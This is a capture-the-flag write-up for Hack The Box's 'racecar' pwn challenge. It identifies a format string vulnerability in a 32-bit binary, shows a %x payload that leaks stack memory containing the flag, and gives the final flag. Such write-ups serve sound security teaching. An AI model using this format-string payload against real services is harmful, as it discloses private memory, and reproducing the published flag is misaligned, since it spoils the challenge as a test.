

# racecar

## Challenge Details 

- **CTF:** Hack The Box
- **Category:** Pwn
- **Points:** 10

## Provided Materials

- `ELF 32-bit LSB pie executable`

## Solution

We need to beat the game. We can decompile the binary [here](https://dogbolt.org/):

```sh
if (__stream == (FILE *)0x0) {
      printf("%s[-] Could not open flag.txt. Please contact the creator.\n",&DAT_00011548,puVar5);
                    // WARNING: Subroutine does not return
      exit(0x69);
    }
    fgets(local_3c,0x2c,__stream);
    read(0,__format,0x170);
    puts(
        "\n\x1b[3mThe Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: \x1b[0m"
        );
    printf(__format);
```

The last line points to [Format string attack](https://owasp.org/www-community/attacks/Format_string_attack).

Let's create the `flag.txt` local:

```
$ echo "AAAA" > flag.txt
```

Then run the program:

```sh
...
[+] You won the race!! You get 100 coins!                                                           
[+] Current coins: [169]                                                                            
                                                                                                    
[!] Do you have anything to say to the press after your big victory?                                
> %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x                           

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
57ffd200 170 5660edfa 2f 5 26 2 1 5660f96c 57ffd200 57ffd380 41414141 5660000a f7c53f75 4a917000 5660fd58 56611f8c ffdf5158 5660f38d 5660f540 57ffd1a0 2 4a917000 0
```

We can see, that our `flag.txt` starts from the 12th part *(41414141)*.

So once we conect to the server and win the game, we can get the flag:

```sh
...
[!] Do you have anything to say to the press after your big victory?
> %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
584de1c0 170 56595dfa a 7 26 2 1 5659696c 584de1c0 584de340 7b425448 5f796877 5f643164 34735f31 745f3376 665f3368 5f67346c 745f6e30 355f3368 6b633474 7d213f cad79500 f7f743fc
```

Let's put it in [CyberChef](https://gchq.github.io/CyberChef/):



## Final Flag

`HTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}`

*Created by [bu19akov](https://github.com/bu19akov)*